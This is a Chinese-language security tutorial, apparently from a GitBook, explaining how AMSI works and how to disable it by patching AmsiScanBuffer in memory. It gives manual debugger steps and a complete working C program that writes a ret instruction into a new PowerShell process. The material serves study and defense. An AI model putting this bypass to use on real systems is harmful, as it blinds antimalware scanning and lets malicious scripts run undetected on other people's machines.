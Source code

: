 # 基于内存补丁的AMSI绕过

## AMSI简介

AMSI的全称是反恶意软件扫描接口（Anti-Malware Scan Interface），是从Windows 10开始引入的一种机制。AMSI是应用程序和服务能够使用的一种接口，程序和服务可以将“数据”发送到安装在系统上的反恶意软件服务（如Windows Defender）。

服务和应用程序可以通过AMSI来与系统中已安装的反恶意软件通信。为了完成该任务，AMSI采用了hook方法。比如，AMSI会hook WSH（Windows Scripting Host）及PowerShell来去混淆并分析正在执行的代码内容。这些内容会被“捕获”，并在执行之前发送给反恶意软件解决方案。

在Windows 10上，实现AMSI的所有组件如下所示：

* UAC（用户账户控制），安装EXE、COM、MSI或者ActiveX时提升权限
* PowerShell（脚本、交互式使用以及动态代码执行）
* Windows Script Host（`wscript.exe`或者`cscript.exe`）
* JavaScript以及VBScript
* Office VBA宏

AMSI整体架构如下图所示：

![](../.gitbook/assets/image%20%2830%29.png)

简单的说AMSI就是这玩意:

![](../.gitbook/assets/image%20%2863%29.png)

## 技术原理&流程

根据前人的研究，我们知道字符串是否敏感是由amsi.dll中的AmsiScanBuffer函数来进行判断的，而内存补丁是一种较为便捷的技术，我们可以对这个函数进行修补，使其丧失判断能力，这样我们就能自由执行任意powershell脚本，当然前提是脚本文件没有被杀软干掉。

实现方式有很多种，如注入一个内存修补功能的dll、获取amsiscanbuffer函数地址使用winapi进行修补。

这里我们使用获取函数地址对其进行修补，流程如下：

1. 创建一个powershell进程
2. 获取amsiscanbuffer函数地址
3. 修改函数内存空间属性
4. 修补函数执行体

前面文章有阐述过目前windows不同进程加载同一个系统模块的地址是一致的，所以我们可以使用本地加载dll获取对应函数地址去修补其他进程的该函数。

> 根据微软官方文档，`AmsiScanBuffer`函数应该返回`HRESULT`类型值，这是一个整数值，用来表示操作是否成功。在我们的例子中，如果该函数成功，那么就应当返回`S_OK`（`0x00000000`），否则应该返回`HRESULT`错误代码。
>
> 这个函数的主要功能是返回需要扫描的内容是否存在问题，这也是`result`变量会作为参数传递给`AmsiScanBuffer`函数的原因所在。这个变量的类型为`AMSI_RESULT`枚举类型。
>
> 对应的枚举原型如下所示：
>
> ```text
> typedef enum AMSI_RESULT {
>     AMSI_RESULT_CLEAN,
>     AMSI_RESULT_NOT_DETECTED,
>     AMSI_RESULT_BLOCKED_BY_ADMIN_START,
>     AMSI_RESULT_BLOCKED_BY_ADMIN_END,
>     AMSI_RESULT_DETECTED
> };
> ```
>
> 在函数执行过程中，待分析的内容会被发送到反恶意软件服务，后者会返回`1`到`32762`（含）之间的一个整数。整数值越大，则代表风险越高。如果证书大于或等于`32762`，那么就会将其判断为恶意数据，加以阻止。随后系统会根据返回的整数值来更新`AMSI_RESULT`变量值。
>
> 默认情况下，该变量处于“正常”（“无害”）值状态，因此，如果我们修改了函数指令，使其永远不会将待分析的内容发送给反恶意软件服务，并且返回`S_OK` `HRESULT`结果值，那么这些内容就会被当成无害数据。
>
> 在汇编语言中，`EAX`（32位）以及`RAX`（64位）寄存器始终包含函数的返回值。因此，如果`EAX`/`RAX`寄存器值等于0，并且如果执行了`ret`汇编指令，那么该函数就会返回`S_OK` `HRSULT`，不会将待分析数据发送给反恶意软件服务。

事实上对于字符串的拦截工作是在AmsiScanBuffer函数内完成的,并非在AmsiScanBuffer返回后由其他函数拦截，这也解释了为什么我们直接ret也能绕过AMSI\(此时RAX内存放着AmsiScanBuffer的地址，无论如何也远大于32762\)。

## 手工操作

创建一个powershell进程

![](../.gitbook/assets/image%20%2865%29.png)

调试器附加并定位AmsiScanBuffer函数

![](../.gitbook/assets/image%20%2813%29.png)

修补该函数使其直接返回\(具体细节大家可以使用ida和x64dbg跟一下\)。

![](../.gitbook/assets/image%20%2862%29.png)

![](../.gitbook/assets/image%20%2859%29.png)

绕过AMSI。

![](../.gitbook/assets/image%20%2843%29.png)

## 代码实现

由于powershell版的内存补丁绕过在互联网上导出都是，这里就补贴出来了\(好吧其实是我烂\)，这里我们其实也有多种实现思路，可以查找运行中的powershell.exe进程来进行修补，也可以自己创建一个新的powershell进程进行修补，这里采用新创建的powershell进行修补。

```text
#include <Windows.h>
#include <stdio.h>

int main() {
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	CreateProcessA(NULL, (LPSTR)"powershell -NoExit dir", NULL, NULL, NULL, NULL, NULL, NULL, &si, &pi);

	HMODULE hAmsi = LoadLibraryA("amsi.dll");
	LPVOID pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");

	Sleep(500);

	DWORD oldProtect;
	char patch = 0xc3;

	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
	WriteProcessMemory(pi.hProcess, (LPVOID)pAmsiScanBuffer, &patch, sizeof(char),NULL);
	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, oldProtect, NULL);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	FreeLibrary(hAmsi);
	return 0;
}
```

## LINKS

{% embed url="https://www.contextis.com/en/blog/amsi-bypass" %}

{% embed url="https://www.anquanke.com/post/id/168210" %}

{% embed url="https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html" %}

{% embed url="https://www.anquanke.com/post/id/180281" %}



